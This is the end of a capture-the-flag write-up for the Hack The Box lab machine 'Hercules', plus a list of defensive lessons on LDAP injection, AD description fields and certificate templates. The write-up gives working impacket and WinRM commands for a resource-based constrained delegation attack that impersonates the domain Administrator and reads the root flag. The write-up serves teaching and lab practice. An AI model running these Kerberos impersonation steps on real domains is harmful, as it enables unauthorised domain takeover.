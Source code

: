 ### RBCD Attack - Impersonate Administrator

```
# U2U + S4U2Proxy
impacket-getST -u2u -impersonate Administrator \
  -spn "HOST/dc.hercules.htb" -k -no-pass \
  hercules.htb/IIS_WEBSERVER$ -dc-ip 10.10.11.91

# Verify ticket created
ls -lh Administrator@HOST_dc.hercules.htb@HERCULES.HTB.ccache
```

### Final Access - Domain Admin

```
# Export Administrator ticket
export KRB5CCNAME=$(pwd)/Administrator@HOST_dc.hercules.htb@HERCULES.HTB.ccache

# Connect as Administrator
python3 winrmexec.py -ssl -port 5986 -k \
  hercules.htb/administrator@dc.hercules.htb -no-pass
```

**Get root flag:**

```powershell
PS C:\Users\Administrator\Documents> cd ..\Desktop
PS C:\Users\Administrator\Desktop> dir
PS C:\Users\Administrator\Desktop> type root.txt

# If root.txt is elsewhere:
PS C:\> Get-ChildItem -Path C:\Users -Recurse -Filter root.txt -ErrorAction SilentlyContinue
```

---

## Key Lessons Learned

### 1. **LDAP Injection Prevention**
- Never rely solely on client-side validation
- Properly escape all LDAP special characters: `*`, `(`, `)`, `\`, `/`
- Use parameterized LDAP queries when possible
- Implement strict input validation with whitelists, not blacklists

### 2. **AD Description Field Security**
- Never store passwords in user description fields
- Regularly audit sensitive attributes for exposed credentials
- Implement secrets management solutions (Azure Key Vault, HashiCorp Vault)

### 3. **Certificate Services Hardening**
- Audit certificate templates for ESC vulnerabilities (ESC1-ESC8)
- Disable enrollment agent functionality if not required
- Restrict certificate enrollment to specific groups
- Implement certificate approval workflows
